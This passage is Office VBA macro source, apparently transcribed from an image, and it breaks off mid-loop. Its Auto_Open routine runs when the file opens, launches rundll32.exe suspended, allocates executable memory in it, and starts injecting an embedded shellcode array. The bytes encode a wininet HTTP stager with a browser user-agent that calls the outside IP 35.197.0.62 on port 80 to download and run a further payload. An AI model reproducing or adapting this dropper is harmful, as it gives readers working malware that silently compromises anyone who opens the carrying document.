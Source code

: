```vb
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84,60,97,124,2,44,32,-63,-49, _
13,1,-57,-30,-16,82,87,-117,82,16,-117,66,60,1,-48,-117,64,120,-123,-64,116,74,1,-48,80,-117,72,24,-117,88,32,1,-45,-29,60,73,-117,52,-117,1, _
-42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3,125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4, _
-117,1,-48,-119,68,36,36,91,91,97,89,90,81,-1,-32,88,95,90,-117,18,-21,-122,93,104,110,101,116,0,104,119,105,110,105,84,104,76,119,38,7,-1, _
-43,49,-1,87,87,87,87,87,104,58,86,121,-89,-1,-43,-23,-124,0,0,0,91,49,-55,81,81,106,3,81,81,104,80,0,0,0,83,80,104,87,-119,-97, _
-58,-1,-43,-21,112,91,49,-46,82,104,0,2,64,-124,82,82,82,83,82,80,104,-21,85,46,59,-1,-43,-119,-58,-125,-61,80,49,-1,87,87,106,-1,83,86, _
104,45,6,24,123,-1,-43,-123,-64,15,-124,-61,1,0,0,49,-1,-123,-10,116,4,-119,-7,-21,9,104,-86,-59,-30,93,-1,-43,-119,-63,104,69,33,94,49,-1, _
-43,49,-1,87,106,7,81,86,80,104,-73,87,-32,11,-1,-43,-65,0,47,0,0,57,-57,116,-73,49,-1,-23,-111,1,0,0,-23,-55,1,0,0,-24,-117,-1, _
-1,-1,47,110,56,115,67,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,85,115,101,114,45,65,103,101,110,116,58,32,77,111,122,105,108,108,97,47,53,46,48,32,40,99,111,109,112,97,116,105,98,108,101,59,32,77, _
83,73,69,32,57,46,48,59,32,87,105,110,100,111,119,115,32,78,84,32,54,46,49,59,32,84,114,105,100,101,110,116,47,53,46,48,59,32,76,66, _
66,82,79,87,83,69,82,41,13,10,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,104,-16,-75,-94,86,-1,-43,106,64,104,0,16,0,0, _
104,0,0,64,0,87,104,88,-92,83,-27,-1,-43,-109,-71,0,0,0,0,1,-39,81,83,-119,-25,87,104,0,32,0,0,83,86,104,18,-106,-119,-30,-1,-43, _
-123,-64,116,-58,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,-87,-3,-1,-1,51,53,46,49,57,55,46,48,46,54,50,0,0,0,0,0)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
```